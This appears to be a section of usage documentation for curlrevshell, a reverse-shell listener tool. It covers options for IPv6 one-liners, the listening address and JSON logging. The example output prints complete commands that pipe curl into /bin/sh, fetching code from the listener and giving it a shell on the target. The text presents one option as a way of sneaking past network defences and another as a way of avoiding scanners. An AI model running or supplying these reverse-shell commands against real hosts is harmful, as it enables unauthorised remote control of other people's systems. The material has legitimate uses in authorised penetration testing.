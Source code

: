 `-ipv6-one-liners`
------------------
Adds the local IPv6 addresses to the list of one-liners.  IPv6 connections are
accepted either way.

Handy for sneaking past defenses that deny the existance of non-IPv4.  Also a
cool party trick.

### Example
Also print a one-liner for our IPv6 address.
```
$ curlrevshell -ipv6-one-liners
17:18:34.802 Listening on 0.0.0.0:4444
17:18:34.802 To get a shell:

curl -sk --pinnedpubkey 'sha256//ZigPt3K4r3wu7o66e5vqOhoS/MNlU1OOvvJ7uke8EsE=' 'https://192.168.1.10:4444/c' | /bin/sh
curl -sk --pinnedpubkey 'sha256//ZigPt3K4r3wu7o66e5vqOhoS/MNlU1OOvvJ7uke8EsE=' 'https://[2001:db8:1234:1234:ab:1234:1234:1234]:4444/c' | /bin/sh
```

`-listen-address`
-----------------
Sets the address on which curlrevshell listens.  If no port is given, a random
port will be chosen.  Use `:0` for a totally random host and port.

Handy for testing locally, not listening where you know scanners scan, and
not having to choose your own port.

### Example
Listen only on loopback, using a random port.
```
$ curlrevshell -listen-address 127.0.0.1
17:21:28.702 Listening on 127.0.0.1:3308
17:21:28.702 To get a shell:

curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://127.0.0.1:3308/c' | /bin/sh
```

`-log`
------
Logs everything to a file, one JSON object per line.  Not easy to read live,
but great for going back and seeing what you did.

Handy for when you forgot to take notes a month ago.

Setting the `CURLREVSHELL_LOG` environment variable sets the default logfile.

### Example
```
# Log everything to log.json
curlrevshell -log log.json
# Or with an environment variable
CURLREVSHELL_LOG=log.json curlrevshell
# Or override the environment variable and log to special.json
CURLREVSHELL_LOG=log.json curlrevshell -log special.json
```
